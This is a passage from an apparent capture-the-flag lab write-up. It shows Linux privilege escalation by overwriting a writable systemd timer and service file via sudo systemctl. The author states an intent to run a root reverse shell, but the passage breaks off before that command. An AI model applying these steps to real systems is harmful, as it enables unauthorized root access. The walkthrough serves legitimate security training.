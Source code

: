 Let's run `sudo -l` and see if this user has any sudo permissions:

```sh
sudo -l
```

![698279b9e43138d3922d2df48618a3ce.png](/resources/ebc190dac61b4e30a60944bca699fe0e.png)

Using the [find](https://linux.die.net/man/1/find) command, we can locate the file being used to manage the service:

```sh
find / -type f -name 'vulnnet-auto.timer' 2>/dev/null
```

![6b9480cedc187f9187a517ed728adc58.png](/resources/34af1fed64104b70859f48522e67d6ea.png)

Checking this directory using `ls -lah`, we will also find that we have write access to two scripts in `/etc/systemd/system/`:

![e24030e1c7241c19f4d9a3a3f44941ab.png](/resources/e672a4c266884d428c0f0bc647565477.png)

Let's see what `vulnnet-auto.timer` is doing by printing out the contents:

```sh
cat /etc/systemd/system/vulnnet-auto.timer
```

![a86c3ad465762786f19567bc3a6cb732.png](/resources/427a488bdda141e795a36d0b8bc86130.png)

`vulnnet-auto.timer` is being used to call the service, `vulnnet-job.service`. If we `cat` the contents of this file, we can see it will execute `/bin/df` on start:

![3257c134a71625324927bccd5097d9f5.png](/resources/3aa13e792e0a430ca390b61061768dc3.png)

Instead of running `/bin/df`, we can edit this file and make it run a reverse shell back to us as the root user.

Before we can edit the files, we need to stop the services that are using the files:

```sh
sudo -u root /bin/systemctl stop vulnnet-auto.timer
```

Next, we will use `cat` along with `<<EOF` suffixed to allow us to make multi-line edits without a proper shell and text editor. Then paste in our edited settings which sets the `OnBootSec` timer to `0min`:

```sh
cat > /etc/systemd/system/vulnnet-auto.timer << EOF
[Unit]
Description=Run VulnNet utilities every 30 min
 
[Timer]
OnBootSec=0min
OnCalendar=*:0/1
Unit=vulnnet-job.service
 
[Install]
WantedBy=basic.target
EOF
```

